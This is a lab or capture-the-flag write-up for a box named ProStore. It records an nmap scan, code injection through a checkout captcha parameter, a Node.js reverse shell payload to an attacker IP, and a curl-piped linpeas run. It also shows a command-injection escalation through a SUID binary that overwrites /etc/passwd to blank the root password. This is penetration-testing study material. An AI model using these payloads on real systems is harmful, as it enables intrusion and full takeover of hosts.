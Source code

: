 
## NMAP TCP

```nmap-tcp

?$ nmap -sC -sV -p- $TARGET
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-28 17:25 UTC
Nmap scan report for 192.168.51.250
Host is up (0.00097s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT     STATE  SERVICE VERSION
22/tcp   open   ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 1c:19:57:44:ae:0d:f4:06:b1:bc:ee:35:d0:c7:53:31 (ECDSA)
|_  256 cf:a2:3b:50:fd:d0:38:0f:4b:bb:68:2f:b9:a9:02:20 (ED25519)
80/tcp   closed http
443/tcp  closed https
5000/tcp open   http    Node.js (Express middleware)
|_http-title: ProStore
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 120.76 seconds

```

### Port 5000

Simple store site
Used burpsuite to map site and examine requests
captcha parameter on checkout endpoint gets executed as code

*Could only use port 80 on LHOST to make reverse shell work. Could not rev shell to usual port 9002 on kali box*

Used nodeJS shell with spaces replaced with + to make single non-space string for sending HTTP request:

```nodejs-rev-shell
(function(){+var+net+=+require("net"),+cp+=+require("child_process"),+sh+=+cp.spawn("sh",+[]);+var+client+=+new+net.Socket();+client.connect(80,+"192.168.49.51",function(){+client.pipe(sh.stdin);+sh.stdout.pipe(client);+sh.stderr.pipe(client);+});+return+/a/;})();
```

Got local flag

TTY Shell spawn:
```
python3 -c 'import pty;pty.spawn("/bin/bash")'; export TERM=xterm-256color
```


### Privilege Escalation

Started with linpeas

```linpeas
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

Found unknown SUID binary with root uid: /usr/local/bin/log_reader

used GDB with command list to see source is named log_reader.c

Used find to locate source:

```find-file-name
find / -name "log_reader.c"
```

Read Source code:

Takes in a filename as arg2 and concatenates with the cat command to then execute it

Ran:

```priv-esc
/usr/local/bin/log_reader "test.log&&echo root::0:0:root:/root:/bin/bash > /etc/passwd"
```

This modified root account to have no password
Then `su root`

**DONE**